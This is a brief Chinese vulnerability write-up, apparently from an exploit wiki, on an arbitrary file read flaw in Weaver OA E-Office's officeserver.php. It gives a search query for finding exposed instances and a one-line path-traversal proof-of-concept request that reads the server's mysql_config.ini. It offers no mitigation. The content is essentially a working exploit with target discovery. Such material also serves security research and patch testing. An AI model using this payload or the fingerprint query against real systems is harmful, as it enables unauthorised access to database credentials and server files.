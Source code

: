 # 泛微OA E-Office officeserver.php 任意文件读取漏洞

## 漏洞描述

泛微OA E-Office officeserver.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383-20220313185607234.png)

验证POC

```javascript
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![img](/assets/PeiQi-Wiki/img/1646044472614-5b3e654f-bde4-44e4-81b5-184c21585029.png)